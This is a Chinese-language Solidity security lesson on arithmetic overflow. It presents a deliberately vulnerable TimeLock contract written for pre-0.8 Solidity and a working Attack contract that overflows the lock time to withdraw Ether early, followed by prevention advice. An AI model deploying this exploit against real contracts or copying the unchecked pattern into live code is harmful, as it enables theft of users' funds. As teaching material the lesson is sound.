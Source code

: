 # 67.Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


这个合约被设计成一个时间保险箱。
用户可以向此合约存款，但至少需要等待一周后才能取款。
用户也可以延长等待时间超过一周。

1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太。您将立即能够取回您的以太。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8版本中算术操作在下溢和溢出时都会恢复。你可以使用 unchecked { ... } 来使用以前的包装行为。

溢出的检查是非常普遍的，所以我们把它作为默认的检查， 以增加代码的可读性，即使它是以略微增加gas成本为代价的。

## remix验证
1. 部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.jpg](./img/67-1.jpg)